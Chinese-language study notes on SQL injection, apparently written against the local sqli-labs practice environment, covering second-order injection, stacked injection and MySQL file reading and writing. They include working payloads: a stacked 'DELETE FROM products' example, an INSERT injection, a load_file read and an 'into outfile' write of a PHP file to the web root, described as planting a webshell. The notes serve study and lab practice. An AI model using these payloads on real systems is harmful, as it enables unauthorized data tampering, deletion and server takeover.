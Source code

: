 二次注入可以理解为，攻击者构造的恶意数据存储在数据库后，恶意数据被读取并进入到SQL查询语句所导致的注入。防御者可能在用户输入恶意数据时对其中的特殊字符进行了转义处理，但在恶意数据插入到数据库时被处理的数据又被还原并存储在数据库中，当Web程序调用存储在数据库中的恶意数据并执行SQL查询时，就发生了SQL二次注入。

示例：

在sqlilabs，Less-24中注册用户名为admin'#密码为123的账号

登录用户名 admi’# 并修改密码为123456，结果是用户名为admin的密码被修改了

```
$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";
这是上面的数据库更新语句，在用户名为 "admin'#" 时执行的实际是：
$sql = "UPDATE users SET PASSWORD='$pass' where username='admin'#' and password='$curr_pass' ";
```



## 堆叠注入

原理：

在SQL中，分号（;）是用来表示一条sql语句的结束。试想一下我们在 ; 结束一个sql语句后继续构造下一条语句，会不会一起执行？因此这个想法也就造就了堆叠注入。而union injection（联合注入）也是将两条语句合并在一起，两者之间有什么区别么？区别就在于union 或者union all执行的语句类型是有限的，可以用来执行查询语句，而堆叠注入可以执行的是任意的语句。例如以下这个例子。用户输入：1; DELETE FROM products服务器端生成的sql语句为：（因未对输入的参数进行过滤）Select * from products where productid=1;DELETE FROM products当执行查询后，第一条显示查询信息，第二条则将整个表进行删除

局限性：

堆叠注入的局限性在于并不是每一个环境下都可以执行， 可能受到 API 或者数据库引擎不支持的限制，在我们的 web 系统中， 因为代码通常只返回一个查询结果， 因此， 堆叠注入第二个语句产生错误或者结果只能被忽略， 我们在前端界面是无法看到返回结果的。因此， 在读取数据时，建议使用union（联合） 注入。 同时在使用堆叠注入之前，我们也是需要知道一些数据库相关信息的， 例如表
名， 列名等信息

PS：oracle 不能使用堆叠注入， 当有两条语句在同一行时， 直接报错。 无效字符

payload：

```
http://127.0.0.1/sqli-labs/Less-38/index.php ?id=1%27;insert into users(id,username,password) values ('39','less39','hello')--+
```



## Mysql注入读写文件

1.读文件（[MySQL注入load_file常用路径](http://www.cnblogs.com/lcamry/p/5729087.html)）

```
http://127.0.0.1/sqlilabs/Less-1/index.php/?id=-1' union select 1,2,load_file('D:\\1.txt')--+
```

![image-20201130215923264](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201130215923264.png)

2.写文件（写webshell到网站目录）

```
http://127.0.0.1/sqlilabs/Less-7/index.php/?id=-1')) union select 1,'<?php phpinfo(); ?>',3 into outfile 'E:\\web\\apache\\htdocs\\1.php'--+
```

